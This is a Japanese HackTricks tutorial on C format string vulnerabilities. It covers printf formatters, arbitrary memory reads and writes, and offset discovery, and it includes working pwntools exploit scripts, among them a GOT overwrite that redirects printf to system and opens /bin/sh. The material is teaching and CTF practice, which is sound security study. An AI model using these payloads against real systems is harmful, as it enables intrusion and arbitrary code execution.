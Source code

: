 # フォーマット文字列

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用しています！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

## 基本情報

Cの**`printf`**は、**文字列を印刷する**ために使用できる関数です。この関数が期待する**最初のパラメータ**は、**フォーマッタを含む生のテキスト**です。**次のパラメータ**は、**生のテキストからフォーマッタを置き換えるための**値**です。

他の脆弱な関数には**`sprintf()`**と**`fprintf()`**があります。

脆弱性は、**攻撃者のテキストがこの関数の最初の引数として使用されるとき**に現れます。攻撃者は、**printfフォーマット**文字列の機能を悪用して、**任意のアドレス（読み取り可能/書き込み可能）にある任意のデータを読み書きする**ための**特別な入力を作成**することができます。この方法で**任意のコードを実行**することが可能です。

#### フォーマッタ：
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**例:**

* 脆弱な例:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* 通常の使用:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* 引数が欠落している場合:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf 脆弱性:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **ポインタへのアクセス**

フォーマット **`%<n>$x`** は、`n` が数字である場合、printf にスタックから n 番目のパラメータを選択するよう指示します。したがって、printf を使用してスタックから 4 番目のパラメータを読み取りたい場合は、次のようにできます:
```c
printf("%x %x %x %x")
```
そして、最初から4番目のパラメータまで読み取ることができます。

または、次のようにすることもできます：
```c
printf("%4$x")
```
and read directly the forth.

攻撃者は `printf` **パラメータを制御しており、これは基本的に** 彼の入力が `printf` が呼び出されるときにスタックに存在することを意味し、彼はスタックに特定のメモリアドレスを書き込むことができるということを意味します。

{% hint style="danger" %}
この入力を制御する攻撃者は、**スタックに任意のアドレスを追加し、`printf` がそれにアクセスできるようにします**。次のセクションでは、この動作をどのように利用するかが説明されます。
{% endhint %}

## **任意の読み取り**

フォーマッタ **`%n$s`** を使用して **`printf`** に **n 番目の位置** にある **アドレス** を取得させ、**文字列のように印刷させる**ことが可能です（0x00 が見つかるまで印刷します）。したがって、バイナリのベースアドレスが **`0x8048000`** であり、ユーザー入力がスタックの 4 番目の位置から始まることがわかっている場合、次のようにバイナリの先頭を印刷することが可能です：
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
アドレス0x8048000を入力の最初に置くことはできません。なぜなら、そのアドレスの最後に0x00が付加されるからです。
{% endhint %}

### オフセットを見つける

入力のオフセットを見つけるために、4または8バイト（`0x41414141`）を送信し、その後に**`%1$x`**を続けて、`A's`を取得するまで値を**増加**させます。

<details>

<summary>ブルートフォースprintfオフセット</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### どれほど役立つか

任意の読み取りは以下に役立ちます：

* **メモリから** **バイナリ**を**ダンプ**する
* **機密** **情報**が保存されているメモリの特定の部分に**アクセス**する（例えば、この[**CTFチャレンジ**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value)のように、カナリア、暗号化キー、またはカスタムパスワードなど）

## **任意の書き込み**

フォーマッタ **`%<num>$n`** は、スタックの\<num>パラメータで指定されたアドレスに**書き込まれたバイト数**を**書き込みます**。攻撃者がprintfを使って任意の数の文字を書き込むことができれば、**`%<num>$n`** を使って任意の数を任意のアドレスに書き込むことができます。

幸いなことに、9999という数を書くために、入力に9999個の"A"を追加する必要はなく、フォーマッタ **`%.<num-write>%<num>$n`** を使用して、**`<num-write>`** の数を**`num`位置で指し示されるアドレス**に書き込むことが可能です。
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
しかし、通常、`0x08049724`のようなアドレスを書くためには（これは一度に書くには非常に大きな数です）、**`$hn`**が**`$n`**の代わりに使用されます。これにより、**2バイトだけを書く**ことができます。したがって、この操作は2回行われます。1回目はアドレスの上位2バイト、2回目は下位2バイトです。

したがって、この脆弱性は**任意のアドレスに何でも書き込むことを可能にします（任意書き込み）。**

この例では、目標は**後で呼び出される**関数の**アドレス**を**上書き**することです。これは他の任意書き込みからexec技術を悪用することもできます：

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

私たちは、**ユーザー**から**引数**を**受け取る**関数を**上書き**し、それを**`system`**関数に**ポイント**します。\
前述のように、アドレスを書くためには通常2ステップが必要です。最初にアドレスの2バイトを書き、その後に残りの2バイトを書きます。そのために**`$hn`**が使用されます。

* **HOB**はアドレスの上位2バイトに呼び出されます
* **LOB**はアドレスの下位2バイトに呼び出されます

次に、フォーマット文字列の動作のために、最初に\[HOB, LOB\]の中で最小のものを**書く必要があります**。その後、もう一方を書きます。

HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools テンプレート

この種の脆弱性に対するエクスプロイトを準備するための**テンプレート**は以下にあります:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

または、[**こちら**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite)の基本的な例もあります:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## フォーマット文字列からBOFへ

フォーマット文字列の脆弱性の書き込みアクションを悪用して、**スタックのアドレスに書き込む**ことが可能であり、**バッファオーバーフロー**タイプの脆弱性を悪用することができます。

## その他の例と参考文献

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html)
* 32ビット、relroなし、canaryなし、nx、pieなし、スタックからフラグを漏洩させるためのフォーマット文字列の基本的な使用（実行フローを変更する必要はありません）
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
* 32ビット、relroあり、canaryなし、nx、pieなし、win関数で`fflush`のアドレスを上書きするためのフォーマット文字列（ret2win）
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html)
* 32ビット、relroあり、canaryなし、nx、pieなし、`.fini_array`内のmainのアドレスに書き込むためのフォーマット文字列（フローがもう1回ループバックするように）および`strlen`を指すGOTテーブル内の`system`へのアドレスを書き込む。フローがmainに戻ると、`strlen`がユーザー入力で実行され、`system`を指すと、渡されたコマンドが実行されます。

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用しています！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

HackTricksをサポートする

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**
{% endhint %}

